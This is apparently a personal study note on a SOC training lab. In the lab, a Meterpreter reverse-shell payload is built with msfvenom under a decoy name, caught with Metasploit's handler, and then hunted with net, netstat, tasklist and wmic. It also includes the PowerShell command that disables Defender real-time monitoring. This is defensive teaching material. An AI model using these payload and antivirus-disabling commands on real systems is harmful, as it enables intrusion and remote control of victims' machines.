 ```yaml
---
{"dg-publish":true,"permalink":"/webinars-and-training/black-hills-soc-core/labs/bhis-socc-lab-windows-cli/","noteIcon":""}
---
```



## LAB: Windows CLI
[WindowsCLI.md](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)

In this lab, we're creating and running malware on our system, and then investigating it using [[Tool Deep-Dives/Windows/NET\|net]], [[Tool Deep-Dives/Windows/netstat\|netstat]], [[Tool Deep-Dives/Windows/tasklist\|tasklist]], and [[Tool Deep-Dives/Windows/wmic\|wmic]].

### Windows Lab
1. Get the malware going
	1. Disable protections
		1. First, we disable real time monitoring, because while it's supposed to be off, it might have turned itself back on.
		2. PowerShell, as admin: `Set-MpPreference -DisableRealtimeMonitoring $true`
		3. **You SHOULD get an error.** `A general error occurred that is not covered by a more specific error code.` is a good thing, and means it's already been disabled.
	2. Get the Linux interface name and IP
		1. The lab uses `ifconfig` and I'm used to that, but `ip a` is what all the kids are doing, and you gotta keep up with the times.
			1. Mine is `eth0` and IP `172.17.28.218/20`
			2. *Yours will be different*
	4. Create and deploy the malware
		1. In the same Linux panel, create the Meterpreter malware, and name it something totally legit, like *TrustMe.exe*^[This can be any name you want; for example, notepad.exe]
			1. We're badguys, so jumping right in with `sudo su -`
			2. Create the malware using [[Tool Deep-Dives/Metasploit/msfvenom\|msfvenom]], a Metasploit payload generator and encoder.
				1. `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=eth0 lport=4444 -f exe -o /tmp/TrustMe.exe`
				2. **NOTE**: `lhost` can be the IP *or* the interface.
					1. I'm making this kinda copy-paste^[We'll see how that goes if/when I come back to this lab in a few weeks time.], so using `eth0` instead of my IP
			3. Check the file and move it onto the Windows system in the tools folder
				1. `cd /tmp && ls -l TrustMe.exe && cp ./TrustMe.exe /mnt/c/tools`
	5. Start the Metasploit handler^[I never met a sploit I couldn't handle.^[I'm sorry, I'm so sorry, please don't hate me.]]
		1. Create a new terminal in Linux and elevate to root
			1. `sudo su -`
		2. Configure Metasploit
			1. Launch Metasploit
				1. `msfconsole -q`
			2. Configure the handler
				1. `use exploit/multi/handler`
				2. `set PAYLOAD windows/meterpreter/reverse_tcp`
				3. `set LHOST eth0`
			3. [Run](https://www.youtube.com/watch?v=mw2kKyJu9gY)
				1. `exploit`
		3. Execute `TrustMe.exe`
			1. Open CMD as Admin, `cd \tools`, then run `TrustMe.exe`
			2. **NOTE**: While I was documenting everything, something got borked and it didn't work.
				1. I think I just took too long.
				2. I killed the Terminal, killed the "Apache Workbench" (or something similar) in Task Manager, and started from the beginning, and everything worked fine.
		4. Confirm we have access
			1. Navigate back over to the Metasploit terminal, and you should see the connection initiated
			2. ![BHIS-SOCC-lab-WindowsCLI.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI.png)
2. Create a sharedrive and some sessions
	1. This is not part of the malware section, and I think it's just setup
	2. Open CMD as Admin, and create a new shared folder
		1. `net share class=C:\Tools`
			2. `net share` creates a shared folder
			3. `class` is the name of the shared folder, and it routes to `C:\Tools`
				1. The share name could be anything; `tools`, `sharedrive`, or `BunchOfGarbageFiles`
			4. The folder can then be accessed with `\\<computer address>\class`
				1. This is either the name of the computer or its network address
				2. e.g., `\\Computer-name\class` or `\\192.168.0.1\class`
		2. `net use * \\127.0.0.1\c$`
			1. `net use` maps a network share to a local drive number
			2. `*` tells it to use the first available drive number
				1. In my case, `Z:`
			3. `\\127.0.0.1\c$` identifies the remote computer (`127.0.0.1`) and the *remote* assigned drive name (`c$`)
				1. In this case, the C drive
				2. Many years ago in a fairly unrestricted work environment, I would often remotely drop scripts and installers directly onto client computers by going to `\\JDOE-1234\c$\Installers`
					1. These files would then be accessible at `C:\Installers`
3. Find the baddies
	1. Start by checking for network shares on this computer
		1. `net session`
			1. Shows us all the remote sessions initiated on this computer.
		2. `net use`
			1. Shows all the active shared drive connections, in this case the share locally known as `Z:`, and remotely known as `\\127.0.0.1\c$`
		3. `net view \\127.0.0.1`
			1. Since we've noticed that 127 address being used in the prior two commands, we can use `net view` to investigate it a little more
			2. Shows all shared resources at `\\127.0.0.1`, which is the [loopback address](https://ccnadefinitions.com/ccna/20-definitions/i-pv4-address-classes/)^[The address the computer uses to refer to itself.] of the computer
			3. You should see a `Disk` called `class` listed here.
				1. If there were more than one share, you would see more.
	2. Let's use [[Tool Deep-Dives/Windows/netstat\|netstat]] to investigate
		1. `netstat -naob`
			1. List active processes; grab the PID for any suspicious *ESTABLISHED* sessions (e.g. `trustme.exe`)
				1. In my case, the PID is `7472`
			2. The format is a little unintuitive, but the first line is indented; The malware is highlighted below.
				1. ![BHIS-SOCC-lab-WindowsCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-1.png)
	3. `netstat -f`
		1. Shows all established connections and their *Foreign Address* (`-f`)
			1. Domainless connections are pretty sus, and of course our malware ain't got no domain!
	4. `tasklist /m /fi "pid eq <PID>"`
		1. Find the associated file in the [[Tool Deep-Dives/Windows/tasklist\|tasklist]] and its associated modules (`/m`)
	5. `wmic process where processid=<PID> get commandline`
		1. This is way to indicate if something was launched from commandline
			1. Resources launched from commandline will typically just be the resource, and not the full path, etc.
		2. `TrustMe.exe` has a fairly simple output, but that got me thinking; let's do an experiment with Notepad.
			1. Launch Notepad in three ways:
				1. Start menu > Notepad
					1. Launching notepad like normal
				2. cmd: `C:\Users\adhd> notepad.exe /?`
					1. The `/?` will throw a syntax error, but Notepad will still launch and it gives us a clear delineator
				3. cmd: `"C:\WINDOWS\system32\notepad.exe"`
					1. This should mimic launching Notepad like a normal user
			2. Find the PIDs with `tasklist /m /fi "imagename eq notepad.exe"`
				1. ![BHIS-SOCC-lab-WindowsCLI-3.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-3.png)
			3. Take the PID from each Notepad process and run the `wmic` command from earlier.
				1. ![BHIS-SOCC-lab-WindowsCLI-4.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-4.png)
			4. As we can see, the Notepad processes with PID 7064 and 4036 look identical
	6. `wmic process get name,parentprocessid,processid`
		1. Pipe it to `| find "[PID]"` to identify all processes associated with the PID or parent PID
			1. Here, I progressively searched down the parent Process ID to see who launched what and when
			2. ![BHIS-SOCC-lab-WindowsCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-2.png)
		2. So this is interesting, but let's go back and check our notepad example
			1. We can see the two processes we kicked off from the Terminal
				1. ![BHIS-SOCC-lab-WindowsCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-5.png)
			2. Here I've drilled into the processes started in the Terminal
				1. The parent process is `WindowsTerminal.exe`, and we can see all the other shenanigans it's got running.
				2. ![BHIS-SOCC-lab-WindowsCLI-6.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-6.png)
			4. Here's what we see with the normally-begun process; it was started by "explorer.exe"
				1. It looks much more straightforward and clean.
				2. ![BHIS-SOCC-lab-WindowsCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-8.png)

### Thoughts
This was interesting, but feels like it could be optimized; maybe a script that specifically looks for processes begun by PowerShell or cmd.exe, or could visualize it by showing the whole process tree of suspicious activity. Maybe a [[Tool Deep-Dives/Python/Python\|Python]] project...

#### Other tools for threat hunting
[[Tool Deep-Dives/DeepBlueCLI\|DeepBlueCLI]]
[[Tool Deep-Dives/Windows/Sysmon\|Sysmon]]
